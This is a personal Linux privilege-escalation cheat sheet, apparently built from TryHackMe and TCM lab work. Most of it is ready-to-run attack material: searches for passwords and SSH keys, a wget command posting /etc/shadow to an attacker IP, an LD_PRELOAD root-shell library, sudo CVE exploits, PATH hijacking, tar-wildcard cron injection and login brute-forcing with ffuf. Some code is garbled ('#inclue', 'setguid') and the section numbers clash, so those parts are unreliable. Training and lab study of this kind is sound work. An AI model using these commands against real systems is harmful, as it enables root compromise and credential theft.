




**1. Basic CMDs**
**2. SUIDS, LD_PRELOAD, && CVE's**
**3. Other Escalation Techniques**
**4. Log4j**
**5. References**

---

###**1 Basic CMDs::**###
+ invoke-rc.d - All access to the init scripts by Debian packages' maintainer scripts should be done through invoke-rc.d
+ ip neigh - like arp -a 
  + check the communication between IP's and ports
+ grep --color=auto -rnw '/' -ie "PASSWORD(=)" --color=always 2>/dev/null (Very nice grep cmd)
+ find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;
+ cat .ovpn - sometimes has password info
+ sudo -l
+ ps aux - for ports
+ find / -name authorized_keys 2>/dev/null
+ find / -name id_rsa 2>/dev/null
+ find / -type f -perm -04000 ls 2>/dev/null
+ strace /dir/to/sicky/bit(X.so) 2>&1 | grep -i -E "open|access|no such file"

+ intended functionality:
+ sudo apache -f /etc/shadow
+ sudo wget --post-file=/etc/shadow <attacker-ip>:8081 #Send the shadow file to self
---

###**2. SUIDS, LD_PRELOAD, && CVE's**###

**CVE's && LD_PRELOAD::**
+ Privesc with LD_PRELOAD=
  + `sudo -l :: env_reset, env_keep+=LD_PRELOAD`
  + ***run malicious library before any other***
---
vim shell.c
```
#inclue<stdio.h>
#inclue<sys/types.h>
#inclue<stdlib.h>

void _init(){
    unsetenv("LD_PRELOAD");
    setguid(0);
    setuid(0);
    system("/bin/bash");
}
```
`$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
`$ sudo LD_PRELOAD=/path/to/file/shell.so apache2  #service from sudo -l` :: root@XYZ#

dirsearch - similar to gobuster/dirbuster 

brute_forcing with CMS made simple: see  && "fun_brute_force_script"

**CVE-2019-14287::**
`sudo -l :: hacker ALL=(ALL,!root) /bin/bash`
`# sudo -u#-1 /bin/bash`
# https://tryhackme.com/room/sudovulnsbypass
# Exploit-DB for CVE-2019-14287 - https://www.exploit-db.com/exploits/47502


**CVE-2019-18634::**
`cat /etc/sudoers :: Defaults env_rest,pwfeedback`
`# sudo -V :: 1.8.21p2 && file grammar V 46`
`./exploit #C program` See 
# https://tryhackme.com/room/sudovulnsbof
# Exploit CVE-2019-18634 - https://github.com/saleemrashid/sudo-cve-2019-18634

**CVE-2021-3156 Baron Samedit::**
```
Affects any unpatched sudo 1.8.2-1.8.31p2-1.9.0-1.9.5p1
This time the vulnerability is a heap buffer overflow, as opposed to the stack buffer (CVE-2019-18634)
The stack is a very regimented section of memory which stores various important aspects of a program. \
The heap, on the other hand, is reserved for dynamic allocation of memory, \
allowing for more flexibility in how values and constructs are created and accessed by a program.
```
See 
# https://github.com/blasty/CVE-2021-3156
# https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
```
make
./sudo-hax-me-a-sandwich
# See 
```

##**SUID - Shared Object Injection::**##
`find / -type f -perm -04000 -ls 2>/dev/null`
TODO:: Escalation via shared object injection

##**SUID escalation w/ Binary Symlinks via nginx::**##
https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html
https://academy.tcm-sec.com/courses/1154399/lectures/24800164
---

##**SUID escalation w/ env variables::**##
https://academy.tcm-sec.com/courses/1154399/lectures/24800170
```
strings /usr/local/bin/suid-env :: "etc etc... service apache2 start
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > tmp/service
gcc /tmp/service.c -o /tmp/service
export PATH=/tmp:$PATH
/usr/local/bin/suid-env
```
###** 3. Other Escalation techniques::**###

Enumeration of domains && users::
wfuzz -c -f sub-fighter -w /subdomains-top1million-110000.txt -u 'http://cmess.thm' -H "HOST: FUZZ.cmess.thm" --hw 209
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.248.128 -fs 2395  #-fs filters out most common size -try various sizes based off results
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists" | grep "Status; 200"
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.17.206/customers/login -fc 200

Good Telnet exploits: https://tryhackme.com/room/protocolsandservers2 


##**Escalation w/ scheduled tasks cron/timers::**##
```
cat /etc/crontab #Anything with wildcard
echo 'cp /bin/bash /tmp/bash && chmod +s /tmp/bash' > /home/andrew/backup/shell.sh
chmod +x shell
touch /home/andre/backup/--checkpoint=1
touch /home/andre/backup/--checkpoint-action=exec=sh\ shell.sh
# run ls /tmp && make sure /tmp/bash is available.
./tmp/bash -p :: whoami - root
```

`systemctl list-timers --all`


###**3. Log4j**###
**CVE-2021-44228 log4j::**
TODO:: 
# [](https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java)
# [](https://log4shell.huntress.com/)
# [](https://www.youtube.com/watch?v=7qoPDq41xhQ)
# [](https://github.com/YfryTchsGD/Log4jAttackSurface)

** 4. References::**
```
[Lin_enum_tips](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
[tools_&_checklists](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
[hacktricks_lin_privesc](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)
[OWASP_lin_privesc](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)
[TCM_GITHUB](https://github.com/TCM-Course-Resources/Linux-Privilege-Escalation-Resources)
[TCM_THM](https://tryhackme.com/room/linuxprivescarena)
[sql-injection_CMSMS_exploit](https://www.exploit-db.com/exploits/46635)
[dirsearch](https://github.com/maurosoria/dirsearch)
```